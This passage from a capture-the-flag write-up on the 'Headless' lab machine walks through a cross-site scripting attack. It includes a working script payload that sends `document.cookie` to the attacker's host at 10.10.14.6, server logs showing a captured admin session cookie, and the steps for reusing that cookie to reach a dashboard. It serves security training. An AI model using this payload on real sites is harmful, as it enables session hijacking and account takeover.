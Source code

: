 ```

<script>var i=new Image(); i.src="http://10.10.14.6/?c="+document.cookie;</script>

```

This will add a new `<img>` tag to the page with a source URL on my server that includes the user’s cookie. For this to work the cookie has to not be configured as `HttpOnly`, which Firefox dev tools shows is False:

![image-20240712094756025](/img/image-20240712094756025.png)

I’ll start a Python webserver using `python -m http.server 80`. I have given my `python` binary `cap_net_bind_service` so it can listen on low ports without root. I’d need to run `sudo` without that. Also, my `python` is Python3.

```

oxdf@hacky$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Now in repeater I’ll send the payload:

![image-20240711145941904](/img/image-20240711145941904.png)

With the Response in Render, it actually triggers and hits my webserver:

```
10.10.14.6 - - [11/Jul/2024 14:56:48] "GET /?c= HTTP/1.1" 200 -

```

It doesn’t have a cookie, so that’s blank. Less than a minute later, there are more connections from Headless:

```
10.10.11.8 - - [11/Jul/2024 14:57:30] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [11/Jul/2024 14:57:33] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [11/Jul/2024 14:57:35] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -

```

#### Access Dashboard

I’ll go into the Firefox dev tools, Storage tab, and replace my cookie with this value:

![image-20240711150158243](/img/image-20240711150158243.png)

Now on visiting `/dashboard`, a different page loads:

![image-20240711150506982](/img/image-20240711150506982.png)

### Command Injection RCE
